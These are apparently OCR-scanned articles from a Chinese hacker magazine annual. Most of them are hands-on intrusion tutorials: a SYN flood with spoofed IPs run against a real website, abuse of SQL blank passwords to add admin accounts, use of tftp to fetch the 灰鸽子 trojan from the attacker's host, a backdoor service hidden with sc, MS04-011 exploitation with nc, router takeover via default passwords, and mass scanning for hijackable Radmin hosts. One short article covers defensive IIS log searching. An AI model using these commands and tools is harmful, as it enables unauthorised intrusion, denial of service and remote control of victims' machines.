TCP 218.25.243.57:80 218.150.1.1:1711 SYN_RECEIVED
TCP 218.25.243.57:80 218.150.1.1:1832 SYN_RECEIVED
TCP 218.25.243.57:80 218.150.1.1:1712 SYN_RECEIVED
TCP 218.25.243.57:80 218.150.1.1:2274 SYN_RECEIVED
TCP 218.25.243.57:80 218.150.1.1:1870 SYN_RECEIVED
TCP 218.25.243.57:80 218.150.1.1:1922 SYN_RECEIVED
TCP 218.25.243.57:80 218.150.1.1:1927 SYN_RECEIVED
TCP 218.25.243.57:80 218.150.1.1:2473 SYN_RECEIVED
TCP 218.25.243.57:80 218.150.1.1:1922 SYN_RECEIVED
TCP 218.25.243.57:80 218.150.1.1:1982 SYN_RECEIVED
TCP 218.25.243.57:80 220.201.40.83:1361 ESTABLISHED
TCP 218.25.243.57:139 60.14.193.198:44583 ESTABLISHED
TCP 218.25.243.57:80 60.14.193.198:40006 CLOSE_WAIT

C:\Documents and Settings\Administrator>
```

图 4

```
Usage: xdos <host> <Ports Range> [options]

<host> = target ip address or Domain Name
<Ports Range> = Port1,Port2,Port3,Port4,Port5...
[options] means:
-t <n> : specify threads count, default is 10
-s <ip> : specify source ip address ("s" means random ip)

Example: xdos www.xxx.com 80
xdos 192.168.1.1 80,139 -t 5 -s

C:\Documents and Settings\Administrator>xdos www.xxx.net 80 -t 8 -s 218.150.255.1

Xdos v1.0 beta - command line version
Code by Lion, data 2004.4.20
mail: lion@honker.org
http://www.honker.org

Scanning www.xxx.net 88 ...

Remote host: www.xxx.net (218.25.243.57)
Local address: 218.150.255.1

MSG mode: SYN FLOOD
Thread count: 8

[=============================]

C:\>
```

图 5

黑客X档案 2003 2004年合订本(下册)

# 傻瓜黑客


一定范围内的 IP 源地址。这样虽然不是太理想，但已经可以实现 DOS 攻击了，而且威力也还算可以。比如我们拿国内某大型 ** 网为例，进行一次 DOS 实战演习（图 9、图 10）。


这次我把参数变成 “-s 218.150.255.1”，目标主机上多出大量的 218.150.2xx.x-218.150.255.x 范围的连接，攻击同样成功了。如图 7、图 8。
这次我把参数变成 “-s 218.200.255.1”，目标主机上就没有出现多余的连接，攻击不成功，这说明我的攻击主机只能伪造

（以前我得到的主机多数能任意伪造 IP 源地址，而现在却很难，韩国还有一些主机可任意伪造 IP 源地址，但是如果你用它来攻击国内的主机时，就只能把伪造的 IP 源地址设成韩国的 IP 范围了，如果设成非

韩国的 IP 范围，攻击就无法进行，想来在国际结点上有一些限制。）


攻击持续几秒钟之后，结果出来了，www.***.com 网站已经无法访问，如果你持续进行攻击的话，它一直无法访问，我想损失一定是有的。但就如我所说，没有这个痛苦的过程，他们也不一定会去提高自己，而且我发现不仅仅是 ** 网这样，很多省级信息港也是如此，对此我即担忧又无奈，其实只要做一些简单设置就可达到防御的目的，真不知道他们是怎么样想的。
经过研究，国内有数家网站可以防御上述所说的 SYN flood 攻击，如雅虎、新浪、搜狐、网易。雅虎的做法很不错，大家每次去 ping cn.yahoo.com 时都会发现得到不同的 IP，其它几个网站大致也是如此。
前一阵访问黑客基地网站，其中一名成员告诉我，黑客基地防 DOS 策略是 janker 做的，很久以前也得到过 janker 本人同意对其网站进行测试，发现效果确实很好。本人对其防御原理进行一番研究后有所收获，我将在下期中公布出如何针对 SYN flood 进行防御。
（本文用到的 xdos.exe 光盘中有收录）

### 查看日志有技巧

唐敏

目前，追查入侵者的途径一般是通过查看日志，但 IIS 的日志实在不好看，又长又多，密密麻麻的让人看了心烦，更不要说分析日志了。有没有简便的方法快速查出有问题的日志呢？答案是肯定的！

本文所有操作均以 Windows 2003 的 IIS 6.0 为对象

#### 基础知识

IIS 的日志默认放在系统盘的 system32\logfiles 下，其中以 W3SVC 开头

的几个文件夹放的是 web server 的日志。打开这些文件夹会发现诸如 ex040412 之类的日志文件，其命名方式为年+月+日，像刚才这条就是 2004 年 4 月 12 日的日志，日志默认的格式为：日期 服务器 IP 请求方式 路径 端口 客户端 IP 返回代码。
由于 IIS 每天都会产生新的日志，而且日志本身又包含非常多的内容，直接查看相当费时费力，所以我们需要一些技巧。

#### 实例分析

我们可通过查找关键词来快速定位有问题的日志，举几个简单的例子吧！比如

我们装有 DVBBS，那么入侵者会发送 *.mdb 的请求来查找我们的数据库。如果入侵者扫描我们的主机，那么日志上会留下 cmd.exe、*.idq 之类的指纹。大多数时候没有必要一个日志一个日志的查找，只需用 Windows 自带的小程序 find 再加上关键词，就可快速浏览所有的日志文件，并且迅速定位到有问题的日志，进而找到有问题的 IP。Find 有几个默认参数，请看图 1，一般我们只需 “/N” 和 “/I” 这两个参数就可以了。


我装的是 DV6.0，想看看有没有人曾经试图下载我的数据库，输入如下命令：
`Find /N /I "mdb" ex04042*.log >>1.txt`

黑客X档案2003 2004年合订本(下册)

# 傻瓜黑客

这条命令的意思是：查找2004.4月20号到29号所有试图访问我数据库的日志，并将结果保存在1.txt里，结果如图2。我们可以发现20号没有状况，但21号有人试图下载数据库。


图2

我们再来查找一个关键词——cmd.exe，还是输入：

```
Find /N /I "cmd.exe" ex04042a.log >>2.txt
```

结果太多了，我删除了一些，见图3，从这里基本可断定他对我的IIS精心呵护了一遍（-_-，其实是我用X-Scan 3.1的IIS的编码/解码漏洞扫描的）。怎么样？10天的日志几秒钟就看完了，效率还不错吧！


图3


图4

如果你觉得用这个命令枯燥乏味，我再推荐一个GUI软件Autoscan（图4），它的界面模仿的mac，还不错！原理也是查找关键词，它提供的关键词更多，比如admin、asa、private、null。当然，它也支持自定义关键词，是不是很方便？我们来看看它查


图5

找的结果吧，还是用关键词mdb，结果如图5。其中，它还查出4月19号的日志是空的！其实是我故意删空的，这点它比find要强。

最后要说的是，其实Windows还带了一个小程序——findstr.exe，它也可用来看日志，而且功能比find更强大，有兴趣的朋友可自己尝试研究一下，这里就不多说了！
（本文用到的Autoscan软件光盘中有收录）

### 另类SQL命令 打造不会飞的肉鸡

Ghostship

很多人可能已经遗忘了SQL空口令这个漏洞，或者拿到了SQL口令的肉鸡不知道怎么利用，今天我就教大家一个方法：利用SQL空口令打造一只不会飞的肉鸡。

所需工具：TFTP、灰鸽子VIP2004、3389.exe、sqlrcmd

1.首先用榕哥的sqlrcmd连接肉鸡，命令为：sqlrcmd IP sa ""

2.然后用命令type c:\boot.ini查看肉鸡的系统版本（图1），以便确认是否可以开终端。

3.在肉鸡上新建一个管理员，命令如下：
net user 21ehack www.21ehack.com /add
net localgroup administrators 21ehack /add

4.用TFTP上传灰鸽子的服务端和3389工具到肉鸡上，tftp的命令格式如下：tftp 本机IP get file，这里我用的命令是：tftp -i 61.48.21.120 get 3389.exe，如图2。

我们一定要先运行灰鸽子。如果先运行3389，肉鸡会重启，如果是动态IP，那我们就损失了。

5.运行灰鸽子服务端，命令为：start filename.exe，如图3。

运行3389工具，先用3389 1命令安装服务（图4），然后再用3389 0命令让肉鸡重启（图5）。

6.肉鸡上线，如图6。

要注意的是，图1中的type c:\boot.ini命令是查看Win2000或Win2000以上版本系统的启动文件，以确认系统版本。有的朋友可能不解，为什么在启动文件里能看到系统版本呢？哈！装了2个或2个以上的朋友应该记得，在计算机启动的时候，在屏幕上会出现一个系统列表，让你选择进入哪个系统！这就是系统在启动时会调用C盘下的boot.ini文件，有兴趣的朋友可打开看看。


图1

注意：在这里，我给大家推荐一个小技巧，如果你的黑客工具在硬盘的最深处，每次想用的时候都要很麻烦，特别是在DOS下用的工具。我建议你在DOS工具的目录下建一个名为cmd.Cmd的文件。然后选中它点右键，选择编辑，在里面打入cmd.exe，保存退出。然后打开这个文件看看。

（本文所用到的工具已打包收录在光盘中）


图2


图3


图4


图5


图6

另类SQL命令
打造不会飞的肉鸡

黑客X档案 2003 2004年合订本（上）


# 系统服务桌面主抓手

SC 是微软 Resource Kit 2000 中的一个工具（在 XP、2003 中，它已成为系统内置的工具），别看它只有小小的几十 K，它可直接控制着系统各项服务的参数。包括系统服务的创建、修改、删除等，而且它对系统的创建、更改、删除等都是即时性的，所以备受众多 NT 技术爱好者的欢迎。呵呵！笔者将它称做“系统服务的瑞士军刀”，一点不夸张吧！现在让我们来体验一下 SC 强大的功能。

黄树东

## 1.建立连接

首先，在本机上通过系统自带的 NET 命令连接到另一台机器上，并将后面要用到的文件复制到对方的机器上，如图 1。


相信每个对 NT 网络技术有一定了解的朋友对图 1 都非常熟悉吧？就是与对方机器建立一个 IPC$ 连接，并复制 rcmsvc.exe 到对方机器上。rcmsvc 是我后面需要用到的二个工具。

> 注意：
> rcmsvc 是微软 Resource Kit 中的一个工具，与 rcmd 配合使用。它是服务端，而 rcmd 是客户端。Rcmsvc 可以服务的方式启动，在安装完成并启动后，它监听 445 端口，跟系统默认开的 445 端口一致，但不冲突，毕竟它们都是微软出的东东。最重要的是，你用 Fport 之类的工具查不到它打开了 445 端口。所以，也有很多人将它作为后门来使用，这件工具可是具有双面性哦！

## 2.创建服务

现在，我们通过本地机器的 SC 工具对远程机器发出指令，将 rcmsvc 安装成远程机器系统中的一个服务。依据 SC 的安装语法，对上述文件安装成系统服务应执行的命令是：
sc \\\\192.168.0.2 create "Remote Command Support" binpath= c:\\winnt\\system32\\rcmsvc.exe type= own start= demand
操作结果如图 2。
SC 的语法：
sc <server> [command] [service name] <option1> <option2>...
<server>是指目标机器的 IP 地址或机器名称。

[command]是指 SC 所要执行的命令行，SC 下面有很多参数开关，下面我会拿常用的给大家做介绍。
[service name]系统服务的名称。如果服务名称中有空格，必须用双引号将其括起来。
<option1> <option2>是[command]下面的一些子参数（子开关）。


在图 2 中，我们用 SC 给目标机器创建了一个服务名称是“Remote Command Support”的新服务。Create 是 SC 下面的一个参数，用于创建新的系统服务。“Remote Command Support”是我给新建服务的名，你可将其改为别的，但不能与原来已存在系统里的服务重名，否则会因出错而拒绝执行。
另外，如果是以留后门的方式来创建该服务，那最好能想出一个能瞒得过管理员的名称。还有，要注意单词的首字母要大写，以免因为一些不必要的小环节而引起对方的怀疑。
Binpath 是 create 下的一个子参数，它的作用是指定新创建的服务所调用的程序名称及其位置，如果该程序需附带相关参数，必须用双引号将其括起来，以便 SC 区分，否则 SC 会认为是非法参数而拒绝执行。

> 注意：
> 这里，在“=”号后面一定要空出一格，否则 SC 也会认为是参数不完整而拒绝执行。后面的“type”、“start”等也一样。关于这一点，大家往下读时就要注意一下，我就不再重复提醒。

“Type= own”和“start= demand”的作用是告诉系统，该服务的启动方式为自动启动且目前标识为“启动”。
如果你已给对方留后门并想让该服务随系统的启动而自动启动，那必须将“start= demand”改成“start= auto”。否则该服务在机器重启后不会自动启动。
系统服务的启动类型一般分为：自动、手动和禁用，在 SC 中，它分别对应着 start 子参数下的 auto、demand 和 disable。SC 下的 start 子参数还有好几个，但基本上都不曾用到，也就不说了。当 start 的启动方式是自动、手动或禁用时，在机器重启后直接左右着 type 参数的结果。

## 3.给服务加上描述

上面我们给目标机器创建了一个新的服务，但新建成的服务乍看起来好像缺了点什么。哦！对了，它还没有任何系统服务描述。给它加什么样的描述呢？我们就加上“允许有权限的用户通过远程获取本地的 CMD 权限并管理本机”吧！现在我们利用 SC 下的 Description 参数给这个服务加上描述，操作结果如图 3。


加完描述后，我们新创建的服务是不是有些像模像样了？当然，如果你觉得刚才加的描述还不够满意或者需要修改原来系统中任一个服务的描述，可再次利用图 3 给出的指令来修改相应系统服务的描述。修改方法与创建方法是一样的，这里我就不重复赘述了。

## 4.更改服务列表显示名称

不知各位有没有发现？当我们用 SC 修改 NT 系统中有些服务列表显示的服务时，却提示找不到该服务，例如 Telnet 服务就是这样。这是什么原因呢？原来很多系统服务在系统的服务列表显示的仅仅是它的键名，而不是它真正的服务函数所在。而 SC 这类工具是直接调用该服务的函数，而不是该服务的名称，所以当我们要修改如 Telnet 服务时，必须指定的是该服务的函数而不是该服务的名称，即 SC 必须调用的是 tlnstv 函数，而不是 telnet 服务名。

同样，现在我们也可修改刚创建的“Remote Command Support”服务在系统服务列表显示的名称，例如将它改成“Remote CMD Support”！操作结果如图 4。


**说明：**
图 4 中的“config”也是 SC 下的一个常用参数，它这里是修改的意思。“DisplayName”是“config”下的一个子参数，在这里的意思是告诉系统：将“Remote Command Support”服务在系统的服务列表显示名称修改成“Remote CMD Support”。还有一点也需要提醒大家，在系统的服务列表中，两个服务显示的名称是不能相同的，否则会出错。还有就是，服务的描述尽可能不要一样，以免出现不必要的意外。

## 5. 修改服务调用源程序的位置、名称，以及修改启动方式

有时，出于某种原因，我们需要更改已存在的某个服务所调用源程序的名称或位置，比如修改 telnet 服务调用的源程序不是原来的 tlnstvr.exe，而是 rcmdsc.exe。我们也可用 SC 下面的 config 来做修改，只需在 SC 参数里加上 config 下的子参数 binpath，以指定要修改的服务调用的新程序名称及位置。如上例，那么修改的命令就应该是：
`sc \\IP config tlntsvr bin path= c:\\winnt\\system32\\rcm dsvc.exe`

如果在修改调用程序位置、名称的同时，还要修改启动方式等（如修改成自动启动），只需在上例的最后加上“start= auto”即可。即：
`sc \\IP config tlnstvr bin path= c:\\winnt\\system32\\rcm`

`dsvc.exe start= auto`

虽然我们刚才新创建的服务设成自动启动且目前标识为“启动”，但由于它是刚刚创建的，所以实质上还没有启动，必须靠我们手动来启动这个服务，现在我们就用 SC 来启动它。操作过程如图 5。


怎么样？非常简单明了吧！如果需要停止该服务，只需将“start”改成“stop”即可。

## 6. 查询服务状态

有时我们需要知道某个服务当前的运行状况。包括该服务所调用的程序的名称、程序的存放位置及该服务当前运行状态等。如果是在本地操作，那就打开系统的服务列表，然后选定需要查询的服务的属性，这样不就一目了然了。

但如果我们不是在 GUI 界面下远程查询该怎么办？还是可以用 SC 来实现这个愿望。

现在我们用 S C 来查询刚创建的“Remote Command Support”服务的状态。操作结果如图 6。


在图 6 中，SC 非常清楚地列出了调用程序的名称、位置，以及当前的启动方式、运行方式和它在系统服务列表显示的名称等。怎么样？够方便吧！

## 7. 修改服务启动方式

有时，因为某种原因，我们需要修改某个系统服务的启动方式以及停止、禁用、启动某个服务。啊啊！用 SC 办这件事绝对没问题，特别是远程打开一些被禁用了的系统服务，那更是 SC 的看家本领。例如，要先将先前创建的“Remote Command Support”服务的启动方式改为禁用，操作结果如图 7。


如果要将某个服务的启动方式改为自动启动，将 start 参数的值改为“auto”就行了。即：`sc \\IP config "Remote Com- mand Support" start= auto`

## 8. 删除服务

有时，系统中的某个服务我们不需要用到，一般我们只将它的启动方式改为禁用并停止该服务的当前服务。但如果该服务我们以后确实不会用到，删除它也许是更好的选择。例如，刚才创建的“Remote Command Support”服务我们已做完相关操作，现在它已没有存在的价值了。

用 SC 删除系统服务是再简单不过的事了，主要是因为它删除系统服务是即时生效的，一旦命令执行完毕，该服务在系统服务列表、注册表立即消失得无影无踪。

在删除系统服务之前，除了确认它以后不会被用到之外，还必须确认该服务现在是停止使用的。如果没有停止该服务，必须先停止它，否则即使我们删除了，它还是会存在系统的服务列表中，必须等到机器重启后才能正式在系统的服务列表消失。操作结果如下图 8、图 9。


现在打开系统的服务列表，看看刚才创建的“Remote Command Support”服务是不是已经消失了。

电脑文萃 2003、2004 年合订本（下册）

50

再打开注册表，并找到HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Servi ces子键，刚才的Remote Command Sup-port子键是不是已经消失了？

## 9.一点补充

也许有的读者在读到SC调用的是系统服务的函数而非系统服务列表显示的值时存在疑问，既然两者不同，那我们如何知道SC调用系统服务的函数的某某服务在系统服务列表对应的服务就是某某呢？反之亦然。

如果知道该服务的函数值，而不知该服务在系统服务列表显示的名称，那好办。刚才我用SC查询“Remote Command Support”服务时，它在系统服务列表显示的值就已经给出了。

不信你可以去看看图6的那一项：Display_Name及其后面的值。当然，你也可用SC下的GetDisplayName开关来查询需要查询的服务。例如要查询刚才创建的“Remote Command Support”在系统服务列表显示的名称，在命令行下输入sc \\\\IP getdisplayname "Remote Command Support"，就可以看到结果了。

如果只知道系统服务列表显示的名称而想查询该服务对应的函数，可用SC下的GetKeyName来实现，在命令行下输入sc \\\\IP getkeyname "Remote CMD Support"，怎么样？清楚吧！

好了，关于SC的介绍就到这里，这里我只说了一些SC较常用到的参数，还有很多参数本文没有提到，都是些不常用到的。如果你有兴趣仔细研究，可参照SC自带的帮助。

独孤弓客

# 打造自己的固定IP

相信很多朋友和我一样通过局域网上网，这样就没有自己的公共IP，对于文件转输和反弹木马控制都很不爽。某天看到一个黑客动画教程，一位仁兄说：“没有玩过鸽子（木马灰鸽子）的黑客生涯就像没当过兵的人生一样，是不完整的。”虽然我还不是黑客，但也无法再忍受不能玩反弹木马、没有公共IP的日子了。于是，我便四处寻觅解决这一问题的方法。

下面笔者分别针对ADSL 组网的用户和其他局域网里的用户讲解一下解决这一问题的方法。

## 一、共享ADSL上网用户

首先给大家声明一下，我是和几个用户共用一个ADSL路由上网的。开始我想，要是能用路由进行端口映射的话，那问题也就解决了。只是我不愿和配置路由的那户人打交道（并不是和他们不和，只是那些人都很小气，应证了某作家的一句话：我见过的人越多我就越喜欢狗）。当然，不能明着跟他们要路由的密码。

以前看过一篇介绍ADSL路由入侵的方法，于是我也仿效着在网上找TP-LINK SOHO Router 的出厂密码，结果没有找到。于是我又跑到电脑城去假装要买路由看了一下说明书，原来帐户和密码都是admin。昏倒！

既然帐户和密码都找到了，现在就开始入侵吧！一般为了便于管理路由器，都会打开80和23端口给用户登陆。我直接在浏览器里输入http://192.168.1.1（192.168.1.1是路由的IP），弹出了输入用户和密码的对话框，输入找到的密码（由于对方是计算机系的学生，所以我做好了暴力破解的准备），如图1。


没想到竟成功登陆了（难到我们的高校就培养出这样的计算机学生吗？汗颜！）。成功登陆后，从路由管理界面可清晰掌握路由及内网配置ADSL的帐户信息，我想，这里得到ADSL的密码应该不是很困难吧！

那我们接下来做什么呢？当然是看看如何设置路由，使它更好的为我们服务，充当我们与另一内网的“媒人”。粗略浏览了一下，这个TP-LINK路由功能丰富而且设置简单，我们找到转发规则，选择虚拟服务器（虚拟服务器，简单地说，你可以做这样的指定：对路由器任何一个或一段协议端口的访问（从WAN口进来的访问），都可重定位到局域网内某一台指定的网络服务器）。如图2。


我添加了两个对应本机IP（192.168.1.102）的服务端口——69和8000，其中69端口是用来进行简单文件传输的端口，8000是灰鸽子MiNi Hacker版服务端的连接端口（如果你选的是灰鸽子，那其他版本你还要加上相应的端口）。选中右边的启用选项，点击保存后就可以使用了。下面让大家看看设置后的效果吧！

相信没有谁不知道微软2004年4月份的MS04-011安全公告吧（X档案上期就有介绍哟）！我用DSScan扫描了一个IP段，找到了几台存在此漏洞的机器，用getos.exe取得了对方的操作系统类型，再用ms04011.exe对其进行溢出，如图3。


然后我用nc连接目标主机的1234端口（图4），连接上后获得了一个system权限的shell。这时我们先在自己的机器上运行tftp d32.exe（注意：这个程序要和木马的服务端放在同一个目录），然后在取得的shell里输入：

```
tftp -i ADSL的IP get 木马程序
```

唉！出师不利啊，怎么出现了“timeout occurred”？是不是路由设置出问题了。于是再回去设置路由，原来虚拟端口服务没有设置好（刚才网络出了点问题，路由被重启了）。再设置一次，再传输一次文件，看图4，成功了。


上传完成后运行木马服务端，用灰鸽子MiNi Hacker版连接。相关配置大家可看看上期的《黑客X档案》。

黑客X档案2005.2004年合订本(下册)

> **小提示：**
> 在自动上线的URL域名转发更新选项“修改您的URL”里把IP填上ADSL的IP（图5）。

自动上线设置成功，刚获得的肉机已经主动连接上来了。


## 二、对于无法使用路由的局域网用户

还有很多朋友是在网吧或其他局域网里上网，如果无法得到路由器的控制权该项怎么办呢？别急，我们还可通过第三方软件来实现端口映射的功能，一样可在局域网里控制局域网。我们用vIDC实现端口映射功能，vIDC包括服务端程序和客户端程序两部分。

服务端程序vIDCs一般架设到其他用户可以访问到的地方，例如internet。它主要用来记录vIDC客户端信息以及端口映射信息，并且转发用户和vIDC客户端之间的数据。客户端程序vIDCc完成和vIDCs的交互，包括认证、映射内部服务到vIDCs的某个端口、维护数据转发通道同时转发vIDCs和内部服务之间的数据交互。当然，我们得准备一台有固定IP的肉机。什么，你说没有肉机怎么办？如果你看了这么多期的《黑客X档案》都没有台肉机的话，那……

通过MS04-011漏洞再次成功的连接上一台肉机，获得了一个system的shell。为便于试验，我直接用刚才设置好的路由上传木马服务端。当然这你不需要和我一样，你可以添加一个管理员账户，然后打开IPCs和共享通道（Win2000和Winxp默认是打开的），再用流光的种植者上传并执行vIDC的服务端程序vIDCs.exe上传到肉机的系统目录下。


下一步要做的是如何运行vIDCs，vIDCs的运行命令如下：
`vIDCs.exe -p -s`
-p：指定vIDCs服务的端口，此vIDCc客户端可通过此端口连接服务器。如果没有指定，则默认的服务端口为8080。
-s：指定vIDCs控制管理页面的访问密码。用户可通过浏览器管理vIDCs服务器。在进入管理页面时会要求用户输入访问密码，即此处设定的密码，如果用户没有指定，则默认密码为123456。注意密码最大长度为9位，超过将被截断。


理解清楚后，在灰鸽子的文件管理里找到刚才上传的vIDCs.exe，点击右键，在弹出的对话框中选择远程打开里的“带参数运行”。输入`vIDCs.exe -p7777`，指定连接服务端的端口为7777。接下来双击运行vIDCc.exe客户端程序，填入vIDCs服务的IP和端口号，连接vIDCs服务。信息提示框会输出连接成功的提示信息，以及当前连接vIDCs服务的版本号，连接成功此按钮将变灰，同时bind和unbind按钮将处于有效状态，如图7。
至此，我们只需再对客户端进行简单设置，就可实现端口映射功能。在bindip输入框输入要绑定内部服务的IP（即运行此内部服务的局域网内某机器的IP），如果要绑定的内部服务和vIDCc客户端在同一台机器上运行，则此处只需输入127.0.0.1即可。在bind端口输入框要绑定的内部服务的服务端口，因为我们用的是灰鸽子MINI Hacker版，所以只需绑定8000端口就行了。按下bind按钮，提交消息，信息提示框将会输出绑定成功，如果成功，返回映射的端口号，如图8。


映射成功后，用户其他局域网里的木马服务端就可自动上线了。

> **注意：** 在自动上线的URL域名转发更新选项“修改您的URL”里要把IP改为肉机的IP。如果你用的是灰鸽子的其他版本，要映射多个服务端口，只要多次执行上面的步骤即可。

不过用这种方法映射端口，自动上线主机的IP都是127.0.0.1（图9），不知是怎么回事，还望高手赐教。


（本文涉及的以下软件光盘中有收录：tftpd32、getos.exe、ms04011.exe、nc、vIDC）

# WINNTAutoAttack再度出击

## 菜鸟的肉鸡自动化

《黑客X档案》2003年第3期的《菜鸟找肉鸡》一文已给大家介绍过Windows NT/2000自动攻击探测器（即WINNTAutoAttack），想必菜鸟们还记忆犹新吧！肯定也弄了不少肉鸡。可如今既开3389又有弱口令的机器实在少得可怜，用Windows NT/2000自动攻击探测器找3389肉鸡也难以再大显身手了。

不过，今天我给大家带来了新版的自动攻击探测器，让菜鸟们再练一回手。


# 傻瓜黑客

时隔一年多，Windows NT/2000 自动攻击探测器（即 WINNTAutoAttack）已升级到了2.6增强版，下载地址：http://www.xixidns.com/soft/WINNTAutoAttack2.6.rar，如图1。
对比以前的版本，此次有了很大改观，开放了部分攻击功能，确实比较好用。一些用X-Scan扫不到的用自动攻击探测器都能扫到，而且现在很多黑鸟都在用它。有一次我用自动攻击探测器扫到一个开3389有SQL空口令的肉鸡，3389登陆后惊讶地发现这个肉鸡早已被人登陆了，正用自动攻击探测器进行大面积扫描呢（当然，本来菜鸟一不小心就不劳而获了一回，如果那位仁兄也在看《黑客X档案》，真的谢了！）
好，下面就开始我们的新菜鸟找肉鸡之旅！

2.6版的自动攻击探测器新增了扫描4899端口功能（即Radmin远程图形终端控制软件端口，并能安装远程图形控制的功能）。不过，Windows NT/2000自动攻击探测器并不能对扫到的开放4899端口的主机进行过滤，即你并不能从探测结果中知道哪台4899主机是可以直接连接的。当然，我们也不能一个个地做健身运动般去试，所以我们要用到一款Radmin过滤器，对WINNT自动攻击探测机的扫描结果进行过滤。

### 1. 设置Radmin服务端

别急着扫描，扫描前我们先对Radmin服务端进行设置。这里推荐新手使用Radmin影子汉化版（可到影子工作室http://www.qqpp.com/index.asp下载，如果你不喜欢汉化版，可到英文官方站点http://www.radmin.com下载），我这里用的是3.0版本。
安装完成后，安装程序会提示您是否现在就进行服务端设置，可直接点击“完成”开始设置，或者把勾去掉，稍后点桌面上的“影子版服务端设置”进行设置，设置窗口如图2。


- 安装服务：在本机上安装Radmin服务，这样外面的计算机便可连接此计算机！
- 移除服务：移除本机上已安装的Radmin服务，这样外面的计算机将无法连接此计算机！
- 设置密码：设置连接时需要验证的密码！
- 设置参数：设置连接时端口、限制IP等参数！
- 版本信息：显示您目前使用的Radmin服务端的版本信息！
- 注册信息：输入注册码来注册Radmin！
- 退出：退出服务端设置！

> 注意：以上设置只对本机生效，要想连接的远程计算机也使用本次设置，需要把本次设置的注册信息导入远程计算机！打开注册表编辑器，找到：HKEY_LOCAL_MACHINE\SYSTEM\Radmin，点击“导出注册表”，并保存为.reg格式，如保存为radmin.reg。然后把安装目录下的r_server.exe、AdmDll.dll、raddrv.dll这三个文件和注册信息发送到对方计算机，让对方先运行r_server.exe，再输入regedit /s radmin.reg命令，把注册信息导入注册表！

服务端设置好后，我们就到Radmin影子版的目录去找三个文件：r_server.exe、AdmDll.dll和raddrv.dll，然后把它们复制到Windows NT/2000自动攻击探测机的同一目录下。现在我们就可以运行自动攻击探测器了。如果服务端设置好了，那客户端怎么用呢？别着急我们先往下看。

打开自动攻击探测机的界面，大家就会发现“设置”选项里多了个“检测4899端口”，存在的问题的主机列表中也多了个“4”和“M”，其他选项里也多了“上传并安装远程图形控制软件”的选项。现在大家明白刚才为什么要设置Radmin的服务端了吧？存在问题的主机列表字符代表的意思想如下：

- 3=3389
- 4=4899
- U=url holes
- O=buffer Overflow
- N=NetBIOS
- M=Messenger Service( messenger 对系统没有什么意义，除非你想进行人家在入侵你的机器！)
- S=sa

把设置里的相关选项都选上后，填上一段IP就可开始扫描了。不一会儿就扫到了不少开4899的主机，如图4。


我们要设置“设置参数”里的选项，为了安全起见，要在“设置密码”里设置你的连接密码。在“设置参数”中可使用默认端口，也可设自选的。如果你有自己固定的外部IP，可选择使用“IP过滤功能”把自己的IP填上，这样别人就无法访问你的肉鸡了。不过一定要选上“状态栏图标”选项里的“隐藏状态栏图标”，这样才不会在连接里暴露自己（图3）。

### 2. 过滤4899主机

刚才说了，我们不能一台台地去看哪台机器能空口令连接，现在我们就用Radmin过滤器对4899的主机进行过滤。
这款Radmin过滤器是ricksung朋友编的（光盘有收录），主要功能有：使用WINNT自动攻击探测器扫描结果(其中有4899开放的IP)，把4899连接密码为空的IP自动检测出来。WINNT自动攻击探测机的扫描结果COPY出来存为txt文本文件，然后再导入。
导入的格式如下：

```
主机:218.4.59.165
3389,Windows 2000 Advance Server Terminal 端口开放。
4899,Radmin远程图形终端控制软件端口开放。
主机:218.4.59.22
3389,Windows 2000 Advance Server Terminal 端口开放。
```


# 傻瓜黑客

导入后，选择分析所有主机，看图 5 的分析结果，哪台主机能连一清二楚了。不过，经本人试验，这个程序并不是很灵验，也有分析不出的空口令肉鸡。所以，如果你扫到的开 4899 端口的机器不多，可以逐一连上试试。

### 3. 连接 4899 肉鸡

好了，现在我们看看如何使用 4899 肉鸡！
运行桌面上的 “Radmin 影子版” 便可进行连接，窗口如图 6。其中，各种按钮和菜单在鼠标悬停时，下面的状态栏会作出相应显示！


点击连接选项 “连接到……” 或按钮中第一个如闪电状的按钮，运行后会弹出图 7 所示的窗口。


连接类型：选择你要进行连接的方式
所连接的 IP 地址或 DNS：输入所要连接的 IP，格式如：127.0.0.1
端口：连接的端口，如果没有在设置中设置端口数，可使用默认：4899
通过以下主机连接：通过你地址薄里已安装服务的主机进行连接（相当于代理连接，这样对方要找到你就更困难了，嘿嘿）


添加到连接列表：把现在要进行连接的 IP 地址导入地址薄
图 7 中我选择的连接类型是 “屏幕监视”，还有完全控制、远程 Telnet、文件管理、关闭系统、语音聊天等连接选项。这些功能对菜鸟来说再适合不过了，心动不如快行动，让我们来看看效果吧！图 8 是屏幕监视的截图。

### 4. 文件管理

再看看文件管理的功能（图 9）：上边的是本地，下边的是远程肉鸡，要下载或上传文件，直接找到相应文件，然后拖放到任意位置。


图形控制简单直观，是菜鸟的最爱，说到最爱，当然还是 3389 肉鸡，下面我们看看如何打造 3389 肉鸡。


现今虽说要扫到既开 3389 服务又有管理员弱口令的肉鸡很难，但扫几台只有 SQL 弱口令的机器还是可以的。
图 10 是我用 Windows NT/2000 自动攻击探测器扫到的有 SQL 弱口令的机器。点击探测器自带的 “SQLCMD 执行” 项，填入扫到的账号为 sa、密码为空的空主机 IP，连接上后输入如下命令判断主机操作系统的类型：
`type c:\boot.ini`
具体如图 10 所示。

```
显示结果为：

连接到主机:xxx.xxx.140.4
命令:xp_cmdshell "type c:\boot.ini"
执行成功.结果：
[boot loader]
timeout=30
default=multi(0)disk(0)rdisk(0)partition(1)\WINNT
[operating systems]
multi(0)disk(0)rdisk(0)partition(1)\WINNT="Microsoft Windows 2000 Server" /fastdetect
multi(0)disk(0)rdisk(0)partition(1)\WINNT="Microsoft Windows 2000 Server" /fastdetect
```

可以看出是 Windows 2000 Server，现在我们已经成功一半了，下一步就是开启 3389 服务。我们相继输入如下两条命令，在肉鸡上建立了一个 ev（当然也可以输入你喜欢的名字）文件。

```
echo [Components] > c:\ev
echo TsEnable = on >> c:\ev
```

输入 `type c:\ev` 确认内容无误，探测器上显示的结果如下：

```
命令:xp_cmdshell "echo [Components] > c:\ev"
执行成功.结果：
命令:xp_cmdshell "echo TsEnable = on >> c:\ev"
执行成功.结果：
命令:xp_cmdshell "type c:\ev"
执行成功.结果：
[Components]
TsEnable = on
TsEnable = on
```

最后输入：`sysocmgr /i:c:\winnt\inf\sysoc.inf /u:c:\ev /q`
结果如下：

```
命令:xp_cmdshell "sysocmgr /i:c:\winnt\inf\sysoc.inf /u:c:\ev /q"
执行成功.结果：
GetLocalManagedApplications returned (2)
```


执行成功，看返回的结果，说明现在

# 傻瓜黑客

